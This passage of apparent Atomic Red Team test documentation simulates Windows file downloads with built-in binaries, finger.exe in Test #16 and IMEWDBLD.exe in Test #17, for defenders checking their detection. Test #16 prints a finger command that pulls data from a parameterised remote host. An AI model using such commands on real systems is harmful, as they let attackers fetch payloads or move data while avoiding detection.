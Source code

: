 




<br/>
<br/>

## Atomic Test #16 - File download with finger.exe on Windows
Simulate a file download using finger.exe. Connect to localhost by default, use custom input argument to test finger connecting to an external server.
Because this is being tested on the localhost, you should not be expecting a successful connection
https://www.exploit-db.com/exploits/48815
https://www.bleepingcomputer.com/news/security/windows-10-finger-command-can-be-abused-to-download-or-steal-files/

**Supported Platforms:** Windows


**auto_generated_guid:** 5f507e45-8411-4f99-84e7-e38530c45d01





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_host | Remote hostname or IP address | string | localhost|


#### Attack Commands: Run with `command_prompt`! 


```cmd
finger base64_filedata@#{remote_host}
```






<br/>
<br/>

## Atomic Test #17 - Download a file with IMEWDBLD.exe
Use IMEWDBLD.exe (built-in to windows) to download a file. This will throw an error for an invalid dictionary file.
Downloaded files can be found in "%LocalAppData%\Microsoft\Windows\INetCache\<8_RANDOM_ALNUM_CHARS>/<FILENAME>[1].<EXTENSION>" or `%LocalAppData%\Microsoft\Windows\INetCache\IE\<8_RANDOM_ALNUM_CHARS>/<FILENAME>[1].<EXTENSION>.
Run "Get-ChildItem -Path C:\Users\<USERNAME>\AppData\Local\Microsoft\Windows\INetCache\ -Include <FILENAME>* -Recurse -Force -File -ErrorAction SilentlyContinue" without quotes and adding the correct username and file name to locate the file.

**Supported Platforms:** Windows

